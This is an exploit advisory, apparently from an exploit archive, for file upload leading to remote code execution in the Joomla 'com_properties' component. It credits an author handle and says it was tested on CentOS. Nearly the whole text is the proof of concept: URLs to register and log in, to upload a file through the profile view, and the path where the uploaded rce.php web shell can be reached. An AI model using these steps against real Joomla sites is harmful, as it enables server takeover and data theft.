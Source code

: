 
#Exploit Title: Joomla Component 'com_properties' File Upload/RCE

* Google Dork: NA


* Exploit Author: Und3r-r00t

* Tested on: Centos

* PoC  
  * register and login
  `http://localhost/index.php?option=com_user&task=register&Itemid=`
  `http://localhost/index.php?option=com_user&view=login`

  * Upload File 
  `http://localhost/index.php?option=com_properties&amp;view=profile&amp;Itemid=19`

  * File path
  `http://localhost/images/properties/profiles/rce.php`


----------------------
github - Und3r-r00t
twitter - @p33rl
----------------------
